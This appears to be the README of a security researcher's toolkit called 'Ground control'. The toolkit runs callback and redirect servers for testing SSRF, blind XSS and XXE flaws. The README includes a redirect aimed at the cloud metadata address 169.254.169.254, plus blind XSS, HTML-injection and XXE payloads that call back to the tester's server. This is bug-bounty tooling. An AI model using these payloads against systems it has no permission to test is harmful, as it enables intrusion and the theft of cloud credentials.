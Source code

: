 # Ground control
This is a collection of most of my scripts that I use to debug Server Side Request Forgery (SSRF), blind XSS, and insecure XXE processing vulnerabilities. This is still a work in progress, as I'm still collecting all the scripts that I have lingering around. Before using these scripts, I used to rewrite these scripts most of the time or set up listeners with `netcat`. That wasn't scalable, so I started collecting the scripts in a repository, which can be closed easily every time it's needed it on a server.

## Requirements
Running this script requires Ruby 2.3, a valid SSL certificate for a domain you own, and a web server that allows to open port `80`, `443`, `8080`, and `8443`. Port `80` and `443` are used to serve simple web traffic. Port `8080` is an alternative HTTP port that can be useful when traffic on port `80` is blocked. Port `8443` is an alternative port for HTTPS traffic, with the difference that it serves a self-signed SSL certificate. I use this port to determine whether the server does SSL certificate validation. It does not warrant a security report by itself, but is often useful to mention when you're filing the SSRF vulnerability.

## Setting up
Clone this repository and install the required components by running `install.sh`. After that, run `start.sh` to start to listen on all ports. For now, `root` privileges are required because it listens on port `80` and `443`. A future version might solve this problem by switching to a different user context after startup.

## Functions

### Redirects
The `/redirect` endpoint is used to redirect a request to another server or endpoint. This may assist you when you need an external server to redirect back to an internal system. See below for examples.

```
curl -vv "http://server/redirect?url=http://169.254.169.254/latest/meta-data/"
```

### Ping Pong
Sometimes, you simply need a page that responds with a certain body and headers. The `/ping_pong` endpoint does exactly that. Here's a few examples.

```
curl -vv "http://server/ping_pong?body=%3ch1%3eHello%3c/h1%3e"
```

### Blind callbacks
To figure out of an inaccessible system is executing your HTML or XSS payload, add an item the `callback_tokens` in `config.json`. The structure is shown below. This callback contains information where you injected your payload. This will help you identify the root cause of the vulnerability if you receive a callback. Every unique combination of parameter, host, port, path, and method is supposed to have its own `callback_token`.

```
{
  "callback_tokens": {
    "ee34a1791ab345f789": {
      "host": "hackerone.com",
      "port": 443,
      "ssl": true,
      "path": "/webhooks",
      "parameter": "url",
      "method": "POST"
    }
  }
}
```

Depending on what type of vulnerability you want to test for, you have to construct a payload. See below for an example for HTML injections and XSS vulnerabilities. Then, submit the payload to the injection point. You'll see a log entry in `logs/access_log` when a request with that `callback_token` was triggered. Most of the time, I use `tail -f logs/access_log` to see if something triggered.

**HTML injection**
```
<img src="https://server/pixel?callback_token=ee34a1791ab345f789" style="display:none;"/>
```

**Blind XSS**
```
<script src="https://server/collect?callback_token=ee34a1791ab345f789"></script>
```

**XXE**
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://server/pixel?callback_token=ee34a1791ab345f789">
]>
<r>&sp;</r>
```

### Starting another server
The server listens on port `80`, `443`, `8080`, and `8443` by default. However, if you want to start another server on a different port, run `ruby app/server.rb -p :port`. To use SSL, append `-cert :cert.pem`. This is especially useful when a potential SSRF vulnerability only allows to connect on certain ports. Say bye to all the Apache and nginx configuration hacking!
